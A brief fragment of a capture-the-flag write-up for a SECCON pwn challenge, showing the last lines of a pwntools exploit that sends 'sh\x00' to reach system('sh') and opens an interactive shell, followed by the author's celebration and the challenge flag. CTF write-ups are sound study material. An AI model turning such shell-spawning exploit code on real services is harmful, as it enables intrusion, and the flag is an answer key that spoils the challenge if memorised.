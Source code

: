 ```python
    r.sendlineafter(">> ", "sh\x00") # strchr("sh", 10) --> system("sh")

    r.interactive()

```

First time solving a 500 points pwn challenge ! WOOHOO ! 

flag: `SECCON{51mpl3_ch47_l1k3_7w1*73*}`